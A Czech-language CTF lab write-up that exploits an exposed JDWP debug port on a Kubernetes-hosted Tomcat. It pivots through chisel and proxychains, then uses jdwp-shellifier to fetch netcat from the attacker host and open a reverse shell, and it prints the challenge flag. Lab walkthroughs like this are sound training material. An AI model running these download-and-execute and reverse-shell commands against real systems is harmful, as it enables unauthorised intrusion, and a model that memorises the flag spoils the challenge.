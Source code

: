 # Chapter 3: Bounded (5)

## Zadání

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

* The entry point to LORE is at <http://intro.lore.tcc>.

See you in the next incident!

## Nápovědy (Hints)

* Be sure you enter flag for correct chapter.
* In this realm, challenges should be conquered in a precise order, and to triumph over some, you'll need artifacts acquired from others - a unique twist that defies the norms of typical CTF challenges.
* All systems related to Chapter 3 restarts on failed healthcheck (5mins).

## Řešení

Webová stránka ze zadání obsahuje pouze odkazy na 4 úlohy ve skupině LORE.

Webová stránka pro tuto úlohu je <http://jgames.lore.tcc/> na které běží [tictactoe](https://github.com/arringtonm/tictactoe.git). S drobnou úpravou v `index.html`.

```diff
      DESERT WARFARE<br>
      AIR-TO-GROUND ACTIONS<br>
-      THEATERWIDE TACTICAL WARFARE<br>
+      KUBERNETES TACTICAL ENGAGEMENT<br>
      THEATERWIDE BIOTOXIC AND CHEMICAL WARFARE<br><br>
      GLOBAL THERMONUCLEAR WAR<br>
```

Začneme skenováním portů

`nmap jgames.lore.tcc`

```text
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

Rozdíl v `index.html` nám dává nápovědu, že stroj s webovou stránkou je součástí Kubernetes a proto dále použijeme reverse shell na PC pimpam z úlohy [Chapter 2: Origins](../16_Chapter1_Origins/README.md).

Na lokální počítač si stáhneme staticky přeložený [nmap](https://github.com/ernw/static-toolbox/releases/tag/nmap-v7.94SVN) a spustíme web server

`python -m http.server 80`.

Na PC pimpam si nmap stáhneme

```text
cd /tmp
curl http://10.200.0.24/nmap-7.94SVN-x86_64-portable.tar.gz -O
tar axf nmap-7.94SVN-x86_64-portable.tar.gz
```

Lokální IP adresu pimpam si zjistíme pomocí `ip addr`, je `192.168.73.124`.

Proskenujeme rozsah `192.168.73.*`

`/tmp/nmap -sn 192.168.73.*`

```text
Nmap scan report for 192.168.73.64
Nmap scan report for 192-168-73-102.intro-web.intro.svc.cluster.local (192.168.73.102)
Nmap scan report for 192-168-73-105.jgames-debug.jgames.svc.cluster.local (192.168.73.105)
Nmap scan report for 192-168-73-112.calico-kube-controllers-metrics.calico-system.svc.cluster.local (192.168.73.112)
Nmap scan report for 192-168-73-114.kube-dns.kube-system.svc.cluster.local (192.168.73.114)
Nmap scan report for 192-168-73-115.ingress-nginx-controller.ingress-nginx.svc.cluster.local (192.168.73.115)
Nmap scan report for 192-168-73-117.webhook-service.metallb-system.svc.cluster.local (192.168.73.117)
Nmap scan report for 192.168.73.118
Nmap scan report for 192-168-73-120.sam-web.sam-operator.svc.cluster.local (192.168.73.120)
Nmap scan report for 192-168-73-121.kube-dns.kube-system.svc.cluster.local (192.168.73.121)
Nmap scan report for 192-168-73-122.cgit-web.cgit.svc.cluster.local (192.168.73.122)
Nmap scan report for 192-168-73-123.whoami-service.default.svc.cluster.local (192.168.73.123)
Nmap scan report for pimpam-9bd6b669c-f5hff (192.168.73.124)
```

Server hostující jgames má IP adresu `192.168.73.105`. Zjistíme otevřené porty

`./nmap 192.168.73.105 -p-`

```text
PORT     STATE SERVICE
5005/tcp open  unknown
8080/tcp open  http-alt
```

Na serveru jako server běží Apache Tomcat, který port 5005 používá pro ladění aplikace (JDWP).

Abychom mohli používat nástroje na vlastním stroji použijeme tzv. Pivoting (tunelování) prostřednictvím SW chisel, který je na PC pimpam předinstalovaný v `/usr/local/sbin` a pro nástroje nepodporující SOCKS5 proxy použijeme proxychains. Viz <https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy> a <https://ap3x.github.io/posts/pivoting-with-chisel/>.

Další možností je použí [ligolo-ng](https://github.com/nicocha30/ligolo-ng), které má více možností a není potřeba používat proxychain, ale muselo by se na server nahrát.

na vlastním PC spustíme

`chisel server -p 8080 --reverse`

```text
2024/10/16 20:35:15 server: Reverse tunnelling enabled
2024/10/16 20:35:15 server: Fingerprint 40wr8Aloqza9ONP8nQfJ5ma0f29PYJvt8e8dF8ibm4c=
2024/10/16 20:35:15 server: Listening on http://0.0.0.0:8080
```

Na PC pimpam spustíme

`chisel client 10.200.0.24:8080 R:socks`

```text
2024/10/16 18:35:28 client: Connecting to ws://10.200.0.24:8080
2024/10/16 18:35:28 client: Connected (Latency 6.877538ms)
```

nastavíme `/etc/proxychains4.conf`

```text
[ProxyList]
socks5  127.0.0.1 1080
```

Pro spouštění vlastního kódu prostřednictvím použijeme [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier).

Na PC jgames není nainstalovaný `nc`, tak si ho tam stáhneme z vlastního pc. Jako breakpoint trigger se použije `java.lang.String.indexOf`.

```text
proxychains python jdwp-shellifier.py -t 192.168.73.105 -p 5005 --break-on 'java.lang.String.indexOf' -c 'curl http://10.200.0.24/nc -o /tmp/nc'

proxychains python jdwp-shellifier.py -t 192.168.73.105 -p 5005 --break-on 'java.lang.String.indexOf' -c 'chmod +x /tmp/nc'
```

Na vlastním PC spustíme poslouchání na portu 4445.

`nc -vlnp 4445`

a vyvoláme reverse shell

`proxychains python jdwp-shellifier.py -t 192.168.73.105 -p 5005 --break-on 'java.lang.String.indexOf' -c '/tmp/nc 10.200.0.24 4445 -e /bin/sh'`

Dojde ke spojení na náš počítač, příkazem `set` si zobrazíme proměnné prostředí, ve kterých se skrývá hledaný FLAG.

Bohužel služba JDWP byla často nedostupná a proto byla dodatečně doplněna její kontrola a případný restart serveru. Pokud se jeden uživatel připojí k JDWP rozhraní, další připojení až není povoleno.

## Flag

`FLAG{ijBw-pfxY-Scgo-GJKO}`
